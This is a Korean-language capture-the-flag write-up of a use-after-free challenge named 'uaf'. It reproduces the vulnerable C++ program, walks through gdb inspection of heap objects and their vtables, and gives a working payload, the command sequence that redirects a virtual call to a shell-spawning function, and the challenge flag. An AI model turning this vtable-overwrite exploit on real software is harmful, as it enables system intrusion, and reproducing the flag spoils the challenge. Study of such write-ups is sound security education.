








uaf
#include <fcntl.h>
#include <iostream>
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;
class Human{
private:
virtual void give_shell(){
system("/bin/sh");
}
protected:
int age;
string name;
public:
virtual void introduce(){
cout << "My name is " << name << endl;
cout << "I am " << age << " years old" << endl;
}
};
class Man: public Human{
public:
Man(string name, int age){
this->name = name;
this->age = age;
}
virtual void introduce(){
Human::introduce();
cout << "I am a nice guy!" << endl;
}
};
class Woman: public Human{
public:
Woman(string name, int age){
this->name = name;
this->age = age;
}
virtual void introduce(){
Human::introduce();
cout << "I am a cute girl!" << endl;
}
};
int main(int argc, char* argv[]){
Human* m = new Man("Jack", 25);
Human* w = new Woman("Jill", 21);
size_t len;
char* data;
unsigned int op;
while(1){
cout << "1. use\n2. after\n3. free\n";
cin >> op;
switch(op){
case 1:
m->introduce();
w->introduce();
break;
case 2:
len = atoi(argv[1]);
data = new char[len];
read(open(argv[2], O_RDONLY), data, len);
cout << "your data is allocated" << endl;
break;
case 3:
delete m;
delete w;
break;
default:
break;
}
}
return 0;
}
| HEAP 영역 |
|---|
| Man |
| Woman |
이 생성되고 없어진다
-
다음은 Stack 영역 (Human *들)이고

-
다음은 가르키고 있는 Heap영역이다

이는 다음과같이 이상한 hexadigit을 발견하여 검토해보니 확실히 heap인 것을 깨달았다.

- Giveshell의 주소는 text segment를 뒤벼보다가 찾았다.

- gdb를 껐다켜서 주소가 다르지만 이는 heap영역을 들여다 본것이다.

disas main 으로 약 280 쯤의 라인을 보면 1. 번 case를 행하는 코드가 나오는데 그때 call 하는 주소를 잘 살펴보면 다음과 같이 heap에서 가져온 값에 +8 을 해주는 것을 볼 수 있기에 그 값을 확인해 보았다.

우리가 아까 찾은 give_shell의 주소가 보이는 가?? heap 영역 첫번째 칸에 give_shell의 주소를 가르키는 주소 -8을 한 값을 넣어주면 introduce 가 실행될때 introduce 대신 give_shell을 실행시킬수가 있다

이제 페이로드를 다음과 같이 작성해서 실행시키면 짜잔잔~ shell 을 실행 시킬수가 있다
$ python -c 'print"\x88\x15\x40\x00\x00\x00\x00\x00"' > /tmp/ uaf_qpalzmm22/uaf.txt;
$ ./uaf 8 /tmp/uaf_qpalzmm22/uaf.txt
3 -> 2 -> 2-> 1 (마지막에 지워진(woman) 부터 채우기 때문에 두번 allocation 필요)

[!TIP] flag: yay_f1ag_aft3r_pwning